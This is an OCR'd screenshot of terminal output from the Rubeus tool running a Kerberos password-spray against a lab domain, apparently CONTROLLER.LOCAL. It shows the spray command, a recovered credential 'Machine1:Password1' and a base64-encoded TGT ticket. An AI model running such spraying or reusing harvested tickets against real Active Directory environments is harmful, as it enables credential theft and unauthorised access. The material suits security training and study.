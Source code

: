 ```
rute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest 
[-] Blocked/Disabled user => krbtgt 
[+] STUPENDOUS => Machine1:Password1 
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQ
Uyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKig
gPx
      BIID7YboH9fBS2/dx7r6jjG3nPmmRKcU472qS5zSs+8AxTI7rxpcrmUeZRfPu9A90RcZM/s2YvYFP
vya
      BAO5rxkAS3kehqmGCg84DdKp0C9Ll7rTKxRBYgLwbcX8YzIt5xlFZ9Lqu72ToSLoii00zC1Z7L0xl
hqq
      ooPR5QGJvUIDaPfcKTOWXcgIO+9iSJc6AYAjffcEdLhgnrCHMh8ynyNGQJSF9H1ia/tY0nOw8cfyX
5+M
      0HhFOupZ/aYYEiimBAfP+SGw1IE9hFfAXwVZ5/GXsj0+CZWZXFaLnJHSiten65rCkPaVF8tuxc3/j
fi3
      hMvhxlmj9YbVHFipG1u1TcCV4q6tYbBkl7Eux0FV5Abh3FQrtu54uOLest+ZGjc1YTFGaLcJ3v3K5
bbH
      F41OwGvsFkAeSbxe0PQRPlpw7AIZYy2o3FuVk2INUvEX1ultj2xrhAZYTrP1Nvm9vMzOViNgNhY8U
RAo
      a17GDIcZi7ZuP+f+AbPd//Q17BopL+Sh3ex3K3u24lWV93PL/kEO3ZCpp9LqU88n1eSbUdVYCZmsT
8pL
      TtpC/Gf3SlUoui2RoZNfqaPd6raS20AHtMzIhMkDQ0XuHGyxrwpBhfVzjXuqXtt1rkbVn33tD8G63
Rtt
      /930+5thnVCWbxWn3otMR+zkJIyhr1wxT2xZBqajt0HmVTnU5shUr8Ds6INNASP5GhX7jt5rv/+cs
NXu
      Wy1p0dUo47u6nmGXHPvR+3WpPCL6tQGyBQ6Vg/dIma9CmgrQ8jW46iDA5/p9Q4wXQlptvE2JWDCnp
u8k
      pXz6IuTZrSAJ3kKFKMti2WaDT+WPbnDGvmiq7cnmfsVrO0VB8NZGTRrtX+k77ws5byTAx7coq8SEK
xUm
      Q6eG1kWa0ZzhmF77eRF1+gELxSihooP7MSLu9JBn7ebMo+L6vs7MYm8bASGGVLDZttNZTfLsJim5N
2OV
      Bnk6Kz6BKbp+/w5NnC/Sr8x/4eBrr3x8H2s7bdlfG/utg+tODKcWx5fQxpmNbJJi3hJThlUKpLGD1
2Ip
      hYOVQrWGwu50xZW7mIJYZhq1yBtlGnN3vKpRJutBGWOjMlylOeSxVaa2BjNysQIuyrZCIbYJc4/uH
UUw
      X3yv3e3PgdGzgpMHg5EFzohN940oUTdnvRFNL5JnRS10ILbIcEubgce2dYpH75WvERaa0zXMprOi/
tx8
      lD+9IckGgU/exERtb/GZSs0N7vzucUSqagsO/ISydPvwzt7YBaKaQCsTeYewYpg6HfvZWWmNAUZSS
l6p
      di2/LVZGaqQ5RLrG97JZj04Je070Mp7KZQusYtLZIGQwI1OQ+7xgDpGBJn9m0hTNw6OB8jCB76ADA
gEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIOL511gL+hc53tjbqZHlnlYazE3978+CR
Le1
      sKG/tvaIoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAA
KUR
      GA8yMDIyMDgyMDE3NTQ1NFqmERgPMjAyMjA4MjEwMzU0NTRapxEYDzIwMjIwODI3MTc1NDU0WqgSG
xBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs     


```
